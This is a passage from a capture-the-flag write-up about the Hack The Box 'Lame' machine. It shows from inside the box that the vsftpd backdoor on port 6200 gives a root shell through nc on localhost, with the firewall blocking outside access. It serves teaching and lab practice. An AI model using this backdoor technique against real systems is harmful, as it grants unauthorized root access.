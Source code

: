 
The firewall must be blocking a lot.

That means that if the backdoor is triggered, and starts listening on 6200,
it’s likely not reachable from my host. I’ll test. For demonstration purposes,
I’ll switch to the user on the box, makis:

    
    
    root@lame:/etc# su - makis -c bash
    makis@lame:~$ nc 127.0.0.1 6200
    (UNKNOWN) [127.0.0.1] 6200 (?) : Connection refused
    

I’m unable to connect to the backdoor. When I trigger the backdoor again, now
I can connect and get a shell as root:

    
    
    makis@lame:~$ nc 127.0.0.1 6200
    id
    uid=0(root) gid=0(root)
    

I can see the port is now listening:

    
    
    root@lame:/etc# netstat -tnlp | grep 6200
    tcp        0      0 0.0.0.0:6200            0.0.0.0:*               LISTEN      5580/vsftpd  
    

[Lame distcc + Privesc »](/2020/04/08/htb-lame-more.html)

[](/2020/04/07/htb-lame.html)

